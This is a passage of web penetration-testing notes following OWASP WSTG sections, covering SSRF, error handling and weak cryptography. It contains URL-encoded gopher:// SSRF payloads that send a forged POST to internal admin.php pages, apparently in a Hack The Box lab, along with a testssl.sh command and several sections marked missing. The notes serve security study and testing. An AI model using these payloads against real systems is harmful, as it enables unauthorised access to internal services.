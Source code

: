 `ssrf_endpoint=gopher://192.168.1.2:80/_POST%20%2Fadmin.php%20HTTP%2F1.1%0AHost%3A%20192.168.1.2%0AContent-Length%3A%2021%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0A%0Auser%3Dadmin%26pass%3Dadmin`

gopher%3A%2F%2F192.168.1.2%3A80%2F_POST%2520%252Fadmin.php%2520HTTP%252F1.1%250AHost%253A%2520dateserver.htb%250AContent-Length%253A%252013%250AContent-Type%253A%2520application%252Fx-www-form-urlencoded%250A%250Aadminpw%253Dadmin
dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01

Useful tool: https://github.com/tarunkant/Gopherus 

**Blind SSRF**

Test if path to known existing and know non existing files or URLs produce a different outputs. 

If you see a difference in those requests (e.g. different response messages) but no additional data like the file contents in the output, SSRF is blind.

[Table of Contents](#table-of-contents)

---


## 4.8 Testing for Error Handling

### 4.8.1 Testing for Improper Error Handling (WSTG-ERRH-01)

❗❗❗MISSING❗❗❗

### 4.8.2 Testing for Stack Traces (WSTG-ERRH-02)

❗❗❗MISSING❗❗❗

[Table of Contents](#table-of-contents)

---

## 4.9 Testing for Weak Cryptography

### 4.9.1 Testing for Weak Transport Layer Security (WSTG-CRYP-01)

 - `testssl.sh https://pentest-experts.com` - Testing weak cipher support  
   https://github.com/testssl/testssl.sh

### 4.9.2 Testing for Padding Oracle (WSTG-CRYP-02)

❗❗❗MISSING❗❗❗

### 4.9.3 Testing for Sensitive Information Sent via Unencrypted Channels (WSTG-CRYP-03)

